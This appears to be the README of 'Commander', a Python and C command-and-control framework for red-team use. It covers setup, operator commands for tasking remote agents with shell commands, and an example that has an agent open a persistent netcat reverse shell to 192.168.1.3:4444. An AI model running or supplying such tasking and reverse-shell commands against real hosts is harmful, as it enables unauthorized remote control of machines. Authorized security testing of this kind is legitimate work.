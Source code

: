 # Commander
Commander is a command and control framework (C2) written in Python, Flask and SQLite. It comes built-in with two Linux agents written in Python and C.

### Features
- Fully encrypted communications (TLS)
- Base64 data encoding
- RESTful API
- Supports CLI Clients
- Comes with a built-in Agent written in C for small footprint

### Agents
- Python 3
- C

### Requirements
Python >= 3.6 is required to run and the following dependencies
```
Linux
apt install libcurl4-openssl-dev libb64-dev
pip3 install -r requirements.txt
```

## Preview
![screenshot](screenshots/commander_cli.jpg)

## How to Use it
Start the admin.py module first in order to create a local sqlite db file
```
python3 admin.py
```
Continue by running the server
```
python3 c2_server.py
```
And last the agent. For the python case agent you can just run it but in the case of the C agent you need to compile it first.
```
# python agent
python3 agent.py

# C agent
gcc agent.c -o agent -lcurl -lb64
./agent
```

By default both the Agents and the server are running over TLS and base64. The communication point is set to 127.0.0.1:5000 and in case a different point is needed it should be changed in Agents source files.

As the Operator/Administrator you can use the following commands to control your agents 
```
Commands:

  task add arg c2-commands
    Add a task to an agent, to a group or on all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
    c2-commands: possible values are c2-register c2-shell c2-sleep c2-quit
      c2-register: Triggers the agent to register again.
      c2-shell: It takes an shell command for the agent to execute. eg. c2-shell whoami
      c2-sleep: Configure the interval that an agent will check for tasks.
      c2-quit: Forces an agent to quit.

  task delete arg
    Delete a task from an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show agent arg
    Displays info for all the availiable agents or for specific agent.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show task arg
    Displays the task of an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  show result arg
    Displays the history/result of an agent or all agents.
    arg: can have the following values: 'all' 'type=linux|windows' 'your_uuid' 
  find active agents
    Drops the database so that the active agents will be registered again.

  exit
    Bye Bye!
```

Special attention should be given to the 'find active agents' command. This command deletes all the tables and creates them again. It might sound scary but it is not, at least that is what i believe :P 

The idea behind this functionality is that the c2 server can request from an agent to re-register at the case that it doesn't recognize him.
So, since we want to clear the db from unused old entries and at the same time find all the currently active hosts we can drop the tables and trigger the re-register mechanism of the c2 server. See below for the re-registration mechanism.

## Flows
Below you can find a normal flow diagram
##### Normal Flow
![screenshot](screenshots/c2_normal_flow2.jpg)


In case where the environment experiences a major failure like a corrupted database or some other critical failure the re-registration mechanism is enabled so we don't lose our connection with our agents.

More specifically, in case where we lose the database we will not have any information about the uuids that we are receiving thus we can't set tasks on them etc... So, the agents will keep trying to retrieve their tasks and since we don't recognize them we will ask them to register again so we can insert them in our database and we can control them again.

Below is the flow diagram for this case.

##### Re-register Flow
![screenshot](screenshots/c2_reregister_flow2.jpg)

## Useful examples
To setup your environment start the admin.py first and then the c2_server.py and run the agent. After you can check the availiable agents and also task them to run a "die hard" reverse shell. Do that like this:

```
# show all availiable agents
show agent all

# first open a netcat on your machine
nc -vnlp 4444

# add a task to open a reverse shell for a specific agent
task add 85913eb1245d40eb96cf53eaf0b1e241 c2-shell nc -e /bin/sh 192.168.1.3 4444

```
This way you will have a shell that even if you get disconnected it will get back up immediately. Only the interactive commands will make it die permanently.

You can also change the interval of the agents that checks for tasks to 30 seconds like this:

```
# to set it for all agents
task add all c2-sleep 30
```

## Testing
pytest was used for the testing. You can run the tests like this:
```
py.test
```
To check the code coverage and produce a nice html report you can use this:
```
# pip3 install pytest-cov
python -m pytest --cov=Commander --cov-report html
```


**Disclaimer**: This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Running this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.
